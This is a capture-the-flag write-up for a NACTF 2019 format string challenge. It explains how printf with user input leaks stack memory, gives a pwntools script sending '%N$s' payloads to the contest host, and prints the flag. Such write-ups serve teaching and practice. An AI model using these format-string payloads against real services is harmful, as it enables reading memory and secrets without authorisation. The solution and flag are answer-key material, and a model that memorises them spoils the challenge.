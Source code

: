 # Format #0
Points: 200

## Category
Binary Exploitation

## Question
>Someone didn't tell Chaddha not to give user input as the first argument to printf() - use it to leak the flag!

>Connect at shell.2019.nactf.com:31782

### Hint
>Note the f in printf

## Solution
When we see printf statment, it is usually a format string attack. Read more at [here](https://www.owasp.org/index.php/Format_string_attack).

In short, input %s to perform string conversion
`%s%s%s%s%s` == `%5$s` as a shortcut. 

We just have to print enough value on the stack until we can get the flag. 

Since we do not know how many number of stacks we have to go through, We can write a simple python script to keep interating up the stack until we find it.
```python
from pwn import *

host, port = 'shell.2019.nactf.com', 31782
for i in range(25):
	s = connect(host,port)
	s.recvuntil('Type something>')
	s.sendline('%' + str(i) + '$s')
	print('%' + str(i) + '$s')

	response = s.recv()
	print(response)
	s.close
```

Print the 24th value in the stacks to get the flag.

### Flag
`nactf{Pr1ntF_L34k_m3m0ry_r34d_nM05f469}`
